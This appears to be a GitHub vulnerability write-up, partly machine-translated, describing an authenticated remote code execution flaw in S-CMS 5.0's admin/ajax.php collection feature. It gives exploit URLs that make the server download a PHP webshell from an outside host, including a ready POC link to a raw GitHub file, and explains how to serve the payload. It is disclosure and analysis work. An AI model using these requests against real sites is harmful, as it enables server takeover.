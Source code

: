 1.First download the latest version of S-CMS Enterprise Construction System Version 5.0
![image](https://user-images.githubusercontent.com/113097106/227728303-14d929d9-599b-45d2-89db-7c6f8bd6fda8.png)
2.Because the vulnerability is the background command execution requires logging in to the background administrator account. The loophole interface address is:
http://10.10.10.8/admin/ajax.php?Type=collection&ACTION=All&pageurl=http://10.10.8:88/1.tXt&ID=1 Directly request test
![image](https://user-images.githubusercontent.com/113097106/227728314-15496a42-5525-4bb2-953b-b823116b73e2.png)
3.After the request is successful, a randomly named PHP file will be generated in the Media directory. This file is our sentence Trojan. Let's visit and execute the command
![image](https://user-images.githubusercontent.com/113097106/227728325-04bc0963-a39e-4dc2-bf91-8f974beb79f7.png)
![image](https://user-images.githubusercontent.com/113097106/227728331-0f933496-826c-42de-81bc-f00c98e5aea4.png)
4.Let ’s analyze the cause of the vulnerability. The vulnerability position is under admin/ajax.php file, and re -request the vulnerability URL:http://10.10.10.8/admin/ajax.php?type=collection&action=all&pageurl=http://10.10.10.8:88/1.txt&id=1 使用PhpStorm 开启调试并在以下位置设置断点
![image](https://user-images.githubusercontent.com/113097106/227728339-11f6e7d1-a16a-47fa-82c2-6f1e7d0f0e8f.png)
5.First check the fields in the SL_COMENT table. If the data exists, continue to execute downward
![image](https://user-images.githubusercontent.com/113097106/227728348-1a45169b-0a24-4644-8f20-fba3438d8ccf.png)
6.Extract all the data in the SL_COMENT table, and then bring the lrl (http://10.10.8:88/1.txt) the URL (http://10.10.8:88/1.txt) we give
![image](https://user-images.githubusercontent.com/113097106/227728355-864aa6da-ead2-42a6-9a1c-5a8fedf8baec.png)
7.The result of extraction returned and assigned value, we see that the return value is analyzed by the http://10.10.10.8:88/2.php link in the return value
![image](https://user-images.githubusercontent.com/113097106/227728360-5547e684-2125-4c2d-8c83-3e01e4be8924.png)
8.Then download and read the content of the 2.php file, follow the downpic function
![image](https://user-images.githubusercontent.com/113097106/227728374-63aa9361-6b95-471c-86ee-75757760239a.png)
9.The PHP suffix of 2.php will be used as a preserved file suffix. The file name is used with the current time with random 3 -digit number to combine new file names. The 2.php file content is written into the Media directory through the file_put_contents method
![image](https://user-images.githubusercontent.com/113097106/227728388-a8c4ddf4-29db-40ba-ae8e-f8cec7f9e4da.png)
![image](https://user-images.githubusercontent.com/113097106/227728392-fa0feb8c-2ea4-466b-ac31-f38651f89153.png)
10.Through the above operations, the Trojan horse will be written into the system. We can execute the system arbitrarily by accessing the PHP file.
![image](https://user-images.githubusercontent.com/113097106/227728406-3ae2e49e-d1b4-4e54-92d8-a3dbbfa68afd.png)
11.The following two points need to be used to use this vulnerability:
  11.1.Create a text file that is a similar data format in the SL_Collection table. Because the system will request the data in the table and extract the URL link in SRC, which is 2.PHP
  ![image](https://user-images.githubusercontent.com/113097106/227728459-07dfc95a-92d0-4552-818f-79e7167c3522.png)

  11.2. 2.php In a phrase Trojan, note that the file cannot be run in the PHP environment, because the request needs a return value, all I use Python to start a HTTP service
  ![image](https://user-images.githubusercontent.com/113097106/227728467-f34ce272-5cce-46eb-82cd-fca1ea25d9ec.png)
12.Online POC uses links : http://10.10.10.8/admin/ajax.php?type=collection&action=all&pageurl=https://raw.githubusercontent.com/superjock1988/debug/main/1.txt&id=1   Just need to modify the local server IP address
![image](https://user-images.githubusercontent.com/113097106/227730565-45a67f23-4c26-4185-a5db-1e9c2c65ee86.png)
![image](https://user-images.githubusercontent.com/113097106/227730563-7e70b656-fbfd-4142-a037-e0cd68bba7c3.png)
![image](https://user-images.githubusercontent.com/113097106/227730564-4e3c9083-c1e8-4875-99f5-7e8adf69857e.png)
